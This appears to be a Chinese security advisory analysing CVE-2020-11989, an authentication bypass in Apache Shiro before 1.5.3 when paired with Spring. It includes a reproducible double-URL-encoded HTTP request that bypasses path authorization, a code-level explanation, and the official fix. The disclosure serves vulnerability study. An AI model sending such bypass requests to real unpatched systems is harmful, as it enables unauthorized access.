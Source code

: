 # Apache Shiro 身份验证绕过漏洞 (CVE-2020-11989)

2020-06-30

Apache Shiro是一个强大且易用的Java安全框架，它可以用来执行身份验证、授权、密码和会话管理。目前常见集成于各种应用中进行身份验证，授权等。

## 漏洞详情

腾讯安全玄武实验室研究员发现在Apache Shiro 1.5.3之前的版本，将Apache Shiro与Spring控制器一起使用时，特制请求可能会导致身份验证绕过。

## 漏洞发现者

该漏洞由腾讯安全玄武实验室的Ruilin发现并报告，此外来自边界无限的淚笑也独立向官方报告了此漏洞点。

## 风险等级

高风险

## 漏洞风险

身份验证绕过等

## 影响版本

Apache Shiro 1.5.3之前的版本



## 漏洞细节

漏洞位置主要出现在`org.apache.shiro.web.util.WebUtils#getPathWithinApplication`中调用的`getRequestUri`方法。

该漏洞可以用以下方法复现，首先编写如下配置代码。

```
@Configuration
public class ShiroConfig {
    @Bean
    MyRealm myRealm() {
        return new MyRealm();
    }

    @Bean
    SecurityManager securityManager() {
        DefaultWebSecurityManager manager = new DefaultWebSecurityManager();
        manager.setRealm(myRealm());
        return manager;
    }

    @Bean
    ShiroFilterFactoryBean shiroFilterFactoryBean() {
        ShiroFilterFactoryBean bean = new ShiroFilterFactoryBean();
        bean.setSecurityManager(securityManager());
        bean.setLoginUrl("/login");
        bean.setSuccessUrl("/index");
        bean.setUnauthorizedUrl("/unauthorizedurl");
        Map<String, String> map = new LinkedHashMap<>();
        map.put("/hello/*", "authc");
        bean.setFilterChainDefinitionMap(map);
        return bean;
    }
}
```

这里配置了
`map.put("/hello/*", "authc");`
同时可以去编写对应的controller

```
@GetMapping("/hello/{name}")
public String hello(@PathVariable String name) {
    return "hello";
}
```

以上操作代表着我通过ant风格的语法设置了去检查在访问`/hello`路由之后的一级目录的用户是否有权限。
如果请求`/hello/aaa`那么将会被禁止。
![img](https://xlab.tencent.com/cn/uploads/2020/02/15932635159543/15932650336775.jpg)
但是这里我们可以通过url双编码的方式来绕过。

```
/ -> %2f ->%25%32%66
GET /hello/a%25%32%66a HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
```

![img](https://xlab.tencent.com/cn/uploads/2020/02/15932635159543/15932651045542.jpg)
成功绕过身份验证。

当然这个场景下需要一些限制条件，首先权限ant风格的配置需要是`*`而不是`**`，同时controller需要接收的request参数(@PathVariable)的类型需要是String，否则将会出错。

我们可以来具体分析一下过程：

当请求进入应用后会进行第一次的url解码。

```
%25%32%66 -> %2f
```

接着当进入到shiro的`org.apache.shiro.web.util.WebUtils#getPathWithinApplication`采用的是`getRequestUri`方法同时里面会调用到`decodeAndCleanUriString` -> `decodeRequestString`进行再一次的解码。
![img](https://xlab.tencent.com/cn/uploads/2020/02/15932635159543/15932656914974.jpg)
![-w627](https://xlab.tencent.com/cn/uploads/2020/02/15933358757040/15933365445245.jpg)
也就造成了

```
%2f -> /
```

可以看到这里就造成了和Spring的uri处理不一致的问题，也就导致了接下来的问题。
当进入到`org.apache.shiro.util.AntPathMatcher#doMatch`去匹配是否符合我们之前定义的权限路由`/hello/*`
![-w951](https://xlab.tencent.com/cn/uploads/2020/02/15933358757040/15933367246503.jpg)
这套流程判断后发现`pattIdxStart > pattIdxEnd`，也可以通过观察当前变量来理解，如下
![img](https://xlab.tencent.com/cn/uploads/2020/02/15932635159543/15932658187974.jpg)
这里可以看到path成了`/hello/a/a`有两个`/`，所以根据上图所示代码跳过了这次的判断，导致了身份验证绕过。

总结一下，当进入应用后我们的请求页面被解析成`/hello/a%2fa`，所以它可以进入到spring controller中的`/hello/{name}`，但是因为shiro再次做了url解码，导致判断的uri成为了`/hello/a/a` 它不属于我们配置的权限判断地址`/hello/*`。
此绕过核心原理可以归因为shiro与spring对RFC标准实现的差异。

此外，`getRequestUri`在标准化中使用`;`截断造成的利用场景可以参考[分析文章](https://mp.weixin.qq.com/s/yb6Tb7zSTKKmBlcNVz0MBA)。

## 官方修复

![-w808](https://xlab.tencent.com/cn/uploads/2020/02/15932635159543/15932669910655.jpg)
采用了标准的`getServletPath(request) + getPathInfo(request)`同时不再进行url解码。